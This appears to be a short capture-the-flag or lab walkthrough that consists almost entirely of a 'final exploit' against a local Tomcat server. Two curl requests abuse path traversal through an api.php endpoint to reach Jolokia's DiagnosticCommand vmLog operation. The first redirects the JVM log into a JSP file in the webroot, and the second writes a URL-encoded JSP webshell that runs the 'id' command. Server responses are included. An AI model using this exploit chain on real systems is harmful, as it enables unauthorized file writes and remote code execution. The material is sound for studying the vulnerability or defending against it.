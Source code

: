 
# Walkthrough & Final exploit

```bash
# Define log file
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/opt!/apache-tomcat-9.0.16!/webapps!/ROOT!/jsp.jsp%23'

#HTTP/1.1 200 OK                                                                                                                                                                               
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:10 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
#string(221) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["output=\/opt\/apache-tomcat-9.0.16\/webapps\/ROOT\/jsp.jsp"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478270,"status":200}"

# Wait for log file rotation and write our payload in the logs/jsp
sleep 1
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/win%253C%2525%253Dnew%2520java.util.Scanner%2528Runtime.getRuntime%2528%2529.exec%2528%2522id%2522%2529.getInputStream%2528%2529%2529.useDelimiter%2528%2522pouetpouet%2522%2529.next%2528%2529%2525%253Ewin%23'

#HTTP/1.1 200 OK
#Host: 0.0.0.0:8443
#Date: Sun, 28 Feb 2021 02:11:11 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
```